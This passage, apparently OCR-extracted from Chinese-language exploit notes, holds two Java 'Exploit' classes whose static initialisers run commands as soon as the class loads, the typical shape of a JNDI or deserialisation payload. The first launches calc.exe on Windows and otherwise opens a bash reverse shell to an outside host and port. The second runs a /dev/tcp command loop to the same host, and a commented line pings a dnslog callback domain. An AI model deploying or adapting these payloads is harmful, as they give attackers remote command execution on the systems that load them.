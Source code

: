 
        public class Exploit{
            public Exploit() {}

            static
            {
                try {
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                            ? new String[]{"cmd.exe","/c", "calc.exe"}
                            : new String[]{"bash", "-c", "/bin/bash -i >&amp; /dev/tcp/172.20.16.121/8000 0>&amp;1"};
                            //: new String[]{"bash", "-c", "/bin/bash -i >& /dev/tcp/172.20.16.121/8000 0>&1"};
                    Runtime.getRuntime().exec(cmds);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

            //public static void main(String[] args) {
               // Exploit e = new Exploit();
                //System.out.println("hello world");
          //  }
        }
    ```

[^2Exploit.java]:反弹shell②:

    ``` java

        import javax.naming.Context;
        import javax.naming.Name;
        import javax.naming.spi.ObjectFactory;
        import java.io.IOException;
        import java.util.Hashtable;
        import java.net.InetAddress;


        public class Exploit{
            public Exploit() {}

            static
            {
                try {
                    String[] cmds = new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/172.20.16.121/8000;cat <&5 | while read line; do $line 2>&5 >&5; done"};
                    //String[] cmds = new String[]{"/bin/sh","-c", "ping mytest.42e9vz.dnslog.cn"};
                    Runtime.getRuntime().exec(cmds);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

        //    public static void main(String[] args) {
        //        Exploit e = new Exploit();
        //        //System.out.println("hello world");
        //    }
        }
    ```

